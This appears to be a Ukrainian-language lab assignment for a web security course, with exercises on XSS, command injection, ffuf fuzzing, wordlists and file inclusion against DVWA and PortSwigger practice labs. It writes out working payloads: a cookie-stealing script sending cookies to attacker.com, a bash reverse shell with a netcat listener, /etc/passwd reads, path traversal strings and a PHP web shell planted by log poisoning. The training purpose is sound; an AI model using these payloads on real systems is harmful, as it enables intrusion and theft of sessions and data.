 # 🛡️ Lab 3: XSS, RCE, LFI, ffuf та словники (PayloadsAllTheThings, SecLists)

## 📘 Середовище для виконання
- **Metasploitable2** + **DVWA (Damn Vulnerable Web Application)**
- **PortSwigger Web Security Academy** (https://portswigger.net/web-security)

---

## 📚 Теми

### 1. Cross-Site Scripting (XSS)

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → XSS (Reflected)**:
   - Використайте прості payload-и: `<script>alert(1)</script>`.
   - Обхід фільтрів: `"><script>alert('XSS')</script>`, `javascript:alert(1)`.

2. Перейдіть до **XSS (Stored)**:
   - Спробуйте вставити XSS у повідомлення коментарів або гостьову книгу.
   - Тестування зловмисного JavaScript для крадіжки cookie:
     ```html
     <script>new Image().src="http://attacker.com/log?c="+document.cookie</script>
     ```
   - Результат - отримані cookie у себе на webhook. [interactsh](https://app.interactsh.com/#/)

#### 🧪 PortSwigger Labs:
- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
- Спробуйте пройти хоча б **3 лаби по XSS**.

---

### 2. Remote Code Execution (RCE)

#### 🎯 Завдання на DVWA:
1. Перейдіть до **DVWA → Command Injection**:
   - Введіть `127.0.0.1; whoami` і досліджуйте вивід.
   - Інші корисні команди: `id`, `uname -a`, `cat /etc/passwd`.
   - Спробуйте підключення зворотного шелу:
     ```bash
     127.0.0.1; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
     ```

2. Підніміть слухач:
   ```bash
   nc -lvnp 4444
   ```

#### 🧪 PortSwigger Labs:
- [OS command injection](https://portswigger.net/web-security/os-command-injection)

---

### 3. Ffuf (Fuzz Faster U Fool)

#### 🛠 Завдання:
1. Проскануйте доступні директорії:
   ```bash
   ffuf -u http://<DVWA-IP>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
   ```

2. Сканування параметрів:
   ```bash
   ffuf -u http://<DVWA-IP>/index.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/{}.txt
   ```
---

### 4. Словники: PayloadsAllTheThings + SecLists

#### 📁 Практика:
- Вивчіть структуру словників у:
  - `Seclists/`
  - `PayloadsAllTheThings`

- Використайте наступні словники:
  - `XSS`: `/PayloadsAllTheThings/XSS Injection/`
  - `RCE`: `/PayloadsAllTheThings/Command Injection/`
  - `Brute-force`: `/SecLists/Passwords/Leaked-Databases/rockyou.txt`

---

### 5. Local File Inclusion (LFI) / Path Traversal

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → File Inclusion**:
   - Введіть `../../../../etc/passwd` у параметр файлу.
   - Протестуйте подвійне кодування: `%252e%252e%252fetc%252fpasswd`.
   - Пошукайте інші файли, наприклад:
     - `/proc/self/environ`
     - `/var/log/apache2/access.log`

2. Спроба інжекції з логів (працює не завжди і не всюди - один із варіантів векторів для атаки):
   - Вставте шкідливий User-Agent у заголовок:
     ```bash
     curl -A "<?php system($_GET['cmd']); ?>" http://<DVWA-IP>/
     ```
   - Потім зверніться до `/var/log/apache2/access.log?cmd=id`

#### 🧪 PortSwigger Labs:
- [File path traversal vulnerabilities](https://portswigger.net/web-security/file-path-traversal)
- Виконайте хоча б **2 лаби**, включаючи LFI до sensitive files.

---

## 📌 Звітність:
Для кожного завдання:
- Надішліть скріншоти payload'ів та результатів.
- Поясніть, що саме відбулось.
- Якщо були труднощі — коротко опишіть їх.

---

✅ **Рекомендація**: Виконуйте завдання в режимі **Medium** або **High** складності DVWA, якщо вже ознайомлені з логікою на Low.


